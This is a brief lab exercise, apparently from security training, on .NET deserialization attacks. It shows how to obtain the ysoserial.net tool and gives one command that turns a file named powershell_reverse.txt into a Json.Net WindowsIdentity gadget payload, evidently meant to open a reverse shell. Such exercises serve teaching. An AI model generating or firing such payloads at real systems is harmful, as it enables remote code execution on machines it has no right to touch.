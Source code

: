 # Exercise 2 - .NET Deserialization



https://github.com/pwntester/ysoserial.net

# Using Ysoserial.net

```
git clone https://github.com/pwntester/ysoserial.net
<<Build with visual studio / MsBuild>>
```

or download the precompiled tool ([see download badge](https://github.com/pwntester/ysoserial.net))

```
cat powershell_reverse.txt | ysoserial.exe -o raw -g WindowsIdentity -f Json.Net –s
```

